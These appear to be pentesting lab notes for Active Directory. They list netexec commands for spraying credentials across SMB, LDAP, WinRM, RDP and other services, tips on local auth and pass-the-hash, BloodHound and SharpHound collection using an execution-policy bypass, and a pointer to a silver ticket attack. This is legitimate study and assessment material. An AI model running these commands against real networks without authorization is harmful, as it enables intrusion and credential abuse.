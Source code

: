 
**Don't forget $ at the end of a user**
- e.g. `svc_apache$`

Spray the credentials against each server & service:
```bash
# SMB
nxc smb <IP> -u <user> -p <pass>
nxc smb <IP> -u <user> -p <pass> --shares
nxc smb <IP> -u <user> -p <pass> --users

# Other
nxc ftp <IP> -u <user> -p <pass>
nxc wmi <IP> -u <user> -p <pass>
nxc ldap <IP> -u <user> -p <pass>
nxc mssql <IP> -u <user> -p <pass>
nxc ssh <IP> -u <user> -p <pass>
nxc rdp <IP> -u <user> -p <pass>
nxc winrm <IP> -u <user> -p <pass>
```
>[!info]
>- **Try everything with --local-auth!**
>-  **Try evil-winrm regardless of the output (may fail)**
>- **Also possible with hashes using -H**

Bloodhound usage:
```bash
# From Kali
bloodhound-python -c all -d <domain> -u <user> -p <pass> --zip -ns <dc-ip>

# On Windows
powershell -ep bypass
Import-Module .\Sharphound.ps1
Invoke-BloodHound -CollectionMethod All -OutputDirectory <directory>

# Start bloodhound
sudo neo4j start
bloodhound
```
>[!info]
>- **Clear BloodHound DB, restart to avoid issues**
>- **Bloodhound fails? --> dnschef: [link](https://arz101.medium.com/vulnlab-trusted-c7c26ff00740)**


SPN? (svc_mssql)
**SILVER TICKET ATTACK**
[[3_Attacks]]
